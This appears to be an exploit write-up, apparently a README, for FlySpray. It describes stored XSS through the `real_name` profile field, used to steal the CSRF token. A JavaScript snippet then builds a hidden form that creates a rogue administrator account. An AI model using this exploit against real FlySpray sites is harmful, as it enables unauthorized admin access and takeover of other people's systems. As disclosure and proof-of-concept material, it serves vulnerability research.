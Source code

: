    - FlySpray has a vulnerability that allows injecting malicious code through the `real_name` parameter in the URL `/index.php?do=myprofile`, which is not properly sanitized before being displayed to the user. This allows attackers to insert malicious scripts that execute in the victim's browser.
   - As a result, any user visiting pages that display this parameter, or pages where users can leave comments, would unknowingly execute the injected code.

2. ### CSRF (Cross-Site Request Forgery):

   - The XSS injection allows the attacker to steal the CSRF token (`csrftoken`), which is used to protect forms from being submitted by unauthorized users. This token prevents forms from being submitted from another site or a malicious source.
   - However, using the XSS exploit, the attacker can retrieve this token and create a malicious form that automatically submits from the affected user's browser.

**Exploit Goal:**

The goal is to execute an XSS script to steal the legitimate user's CSRF token and, using that token, send a POST form to the `admin/newuser` page, creating a new administrator account in the FlySpray application.

**Attack Workflow:**

1. **XSS Injection:**
   - The attacker injects a malicious script into the `real_name` field (or any other vulnerable field) of FlySpray. This script executes in the victim's browser when visiting the `myprofile` page or any page reflecting comments.

2. **Stealing the CSRF Token:**
   - The script injected by the attacker steals the CSRF token (`csrftoken`) from FlySpray forms. This token is essential for sending legitimate requests within the application.

3. **Creating a New Administrator:**
   - Using the stolen CSRF token, the injected script generates and submits a hidden form (POST request) to the `index.php?do=admin&area=newuser` page, which handles the creation of new users in FlySpray.
   - The form includes all necessary parameters to create a new administrator with the username `hacker` and password `12345678`. Since the CSRF token is valid, the request appears legitimate and is accepted by the server.


The exploit code is written in JavaScript.
```js
var tok = document.getElementsByName('csrftoken')[0].value;

var txt = '<form method="POST" id="hacked_form" action="index.php?do=admin&area=newuser">'
txt += '<input type="hidden" name="action" value="admin.newuser"/>'
txt += '<input type="hidden" name="do" value="admin"/>'
txt += '<input type="hidden" name="area" value="newuser"/>'
txt += '<input type="hidden" name="user_name" value="hacker"/>'
txt += '<input type="hidden" name="csrftoken" value="' + tok + '"/>'
txt += '<input type="hidden" name="user_pass" value="12345678"/>'
txt += '<input type="hidden" name="user_pass2" value="12345678"/>'
```

- **`tok = document.getElementsByName('csrftoken')[0].value;`**: This code retrieves the value of the CSRF token present on the page.
- **Form Construction**: The script dynamically builds an HTML form that will be sent to the server. The form fields include the username (`hacker`), password (`12345678`), and the stolen CSRF token.
- **POST Form**: The form simulates the creation of a new user in the system.
